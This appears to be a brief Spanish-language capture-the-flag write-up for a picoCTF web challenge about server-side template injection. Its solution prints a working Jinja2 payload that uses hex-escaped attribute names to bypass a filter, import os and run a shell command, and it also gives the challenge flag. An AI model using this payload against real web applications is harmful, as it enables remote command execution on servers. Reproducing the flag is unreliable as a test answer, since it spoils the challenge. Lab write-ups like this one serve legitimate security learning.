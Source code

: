 #### Description

I made a cool website where you can announce whatever you want! Try it out!

Additional details will be available after launching your challenge instance.


#### Hints 
- Server Side Template Injection


## Solución
```
insertamos la sig inyeccion sacada de la pagina: 


{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}


y ya nos da la bandera

picoCTF{sst1_f1lt3r_byp4ss_96a02202}
```

Pagina de las inyecciones: https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/